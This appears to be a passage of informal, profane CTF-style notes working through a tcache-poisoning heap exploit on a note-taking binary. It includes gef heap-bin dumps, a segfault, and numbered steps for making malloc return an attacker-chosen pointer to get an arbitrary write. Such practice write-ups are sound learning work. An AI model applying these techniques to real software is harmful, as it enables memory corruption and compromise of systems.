 ```

Program received signal SIGSEGV, Segmentation fault.
tcache_get (tc_idx=<optimized out>) at malloc.c:2937

```
 hahaha nice
 
Well, we didn't get to our arbitrary write, but we fucked some shit up so that's pretty fun.


# Trying with script
Cheating and leaving ASLR randomization off so that I can hardcode a random memory value to write to
	(baby steps)

We got to the part we were at before!
```
gef➤  $ heap bins
 Tcachebins for thread 1 
Tcachebins[idx=0, size=0x20, count=2]
←  Chunk(addr=0x5555555592a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) 
←  Chunk(addr=0x555555558000, size=0x7ffff7e09f10, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) 
```
Look at that beautiful fucking chunk

Re allocate that space by calling `addnote` and making one of the same size
   Now tcache will point to that value
	   `tcache -> 0xDEADBEEF`
6) Make one more note (of that same size)
	The "pointer" that `malloc` returns will be `0xDEADBEEF`
7) Call edit, using that pointer

So now this is what it looks like after step 5: Re allocate that space by calling `addnote` and making one of the same size
```
>$ 1
Size:
$ 24

gef➤  $ heap bins
 Tcachebins for thread 1 
Tcachebins[idx=8796084505071, size=0x7ffff7e09f10, count=1] ←  Chunk(addr=0x555555558000, size=0x7ffff7e09f10, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) 

```

Step 6) Make one more note (of that same size)
```
>$ 1
Size:
$ 24

gef➤  $ heap bins
 Tcachebins for thread 1 
All tcachebins are empty

```
